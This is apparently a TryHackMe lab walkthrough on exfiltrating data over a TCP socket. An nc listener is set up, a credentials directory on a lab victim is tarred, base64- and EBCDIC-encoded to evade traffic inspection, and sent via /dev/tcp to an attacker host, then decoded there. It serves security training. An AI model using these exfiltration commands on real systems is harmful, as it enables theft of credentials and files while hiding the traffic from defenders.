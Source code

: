 

First, we need to prepare a listener on the **JumpBox** on a port you specify. In our case, we choose port 8080.  

Listening on port TCP/8080 in the JumpBox  

           
			
			
```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data Listening on [0.0.0.0] (family 0, port 8080)
```



From the previous command, we used the nc command to receive data on port 8080. Then, once we receive the data, we store it in the /tmp/ directory and call it task4-creds.data as a filename.

Now let's connect to our victim machine that contains the data that needs to be transmitted using the following credential: thm:tryhackme. Note that to connect to the victim1 from the JumpBox, we can use the internal domain name as follows,

Connect to the victim from the JumpBox  

```       
	thm@jump-box$ ssh thm@victim1.thm.com
```

We can also connect directly from the AttackBox using port 2022 as follows,

Connect to the victim from the AttackBox  

```           
root@AttackBox$ ssh thm@10.10.34.65 -p 2022`

```    

We have the required data ready to be transmitted on the victim machine. In this case, we have a sample file with a couple of credentials.

Checking the creds.txt file on the victim machine  

```
thm@victim1:~$ cat task4/creds.txt admin:password Admin:123456 root:toor
```

Now that we have the credential text file, we will use the TCP socket to exfiltrate it. **Make sure the listener is running on the JumpBox**.

Exfiltrate Data over TCP Socket from the victim machine!  

```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080 0+1 records in 0+1 records out 260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```


Let's break down the previous command and explain it:

1.  We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2.  The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3.  We then passed the created tar file to the base64 command for converting it to base64 representation.
4.  Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5.  Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

Once we hit enter, we should receive the encoded data in the /tmp/ directory.

Checking the received data on the JumpBox   

           
```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data Listening on [0.0.0.0] (family 0, port 8080) Connection from 192.168.0.101 received!  thm@jump-box$ ls -l /tmp/ -rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

On the JumpBox, we need to convert the received data back to its original status. We will be using the dd tool to convert it back. 

Restoring the tar file  

```
thm@jump-box$ cd /tmp/ thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar 0+1 records in 0+1 records out 260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

The following is the explanation of the previous command:

1.  We used the dd command to convert the received file to ASCII  representation. We used the task4-creds.data as input to the dd command. 
2.  The output of the dd command will be passed to the base64 to decode it using the -d argument.
3.  Finally, we save the output in the task4-creds.tar  file.

Next, we need to use the tar command to unarchive the task4-creds.tar file and check the content as follows,

Uncompressing the tar file  

```
thm@jump-box$ tar xvf task4-creds.tar task4/  task4/creds.txt
```

Let's break down the previous command and explain it:

1.  We used the tar command to unarchive the file with the xvf arguments.
2.  The x is for extracting the tar file, the v for verbosely listing files, and the f is for using an archive file.

Now let's confirm that we have the same data from the victim machine.

Confirming the received data  

```
thm@jump-box$ cat task4/creds.txt admin:password Admin:123456 root:toor`

```

Success! We exfiltrated data from a victim machine to an attacker machine using the TCP socket in this task.